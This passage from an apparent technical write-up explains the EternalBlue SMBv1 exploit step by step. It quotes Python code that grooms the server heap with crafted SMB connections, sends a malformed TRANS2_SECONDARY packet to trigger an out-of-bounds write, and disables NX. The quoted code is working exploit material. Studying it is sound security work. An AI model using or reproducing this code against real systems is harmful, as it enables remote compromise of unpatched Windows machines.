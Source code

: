     	# I believe NSA exploit use SMB2 for hiding alert from IDS
    	#pkt += '\xfeSMB' # smb2
    	# it can be anything even it is invalid
    	pkt += b'BAAD' # can be any
    	if for_nx:
    		# MUST set no delay because 1 byte MUST be sent immediately
    		sk.setsockopt(socket.IPPROTO_TCP, socket.TCP_NODELAY, 1)
    		pkt += b'\x00'*0x7b  # another byte will be sent later to disabling NX
    	else:
    		pkt += b'\x00'*0x7c
    	sk.send(pkt)
    	return sk
	
    srvnetConn = []
	for i in range(numGroomConn):
		sk = createConnectionWithBigSMBFirst80(target, for_nx=True)
		srvnetConn.append(sk)
    ```
    - Because these packets are crafted so carefully and have controlled sizes, we end up with a predictable memory structure.
### 3. Buffer overflow and out-of-bounds write
- Once the heap is full, a final malformed TRANS2_SECONDARY packet is sent, which then triggers the vulnerability.
    ```
    # send last fragment to create buffer in hole and OOB write one of srvnetConn struct header
	# first trigger, overwrite srvnet buffer struct for disabling NX
	send_trans2_second(nxconn, nxtid, feaListNx[nxprogress:], nxprogress)
	recvPkt = nxconn.recvSMB()
	retStatus = recvPkt.getNTStatus()
	if retStatus == 0xc000000d:
		print('good response status for nx: INVALID_PARAMETER')
	else:
		print('bad response status for nx: 0x{:08x}'.format(retStatus))
		
	# one of srvnetConn struct header should be modified
	# send '\x00' to disable nx
	for sk in srvnetConn:
		sk.send(b'\x00')
	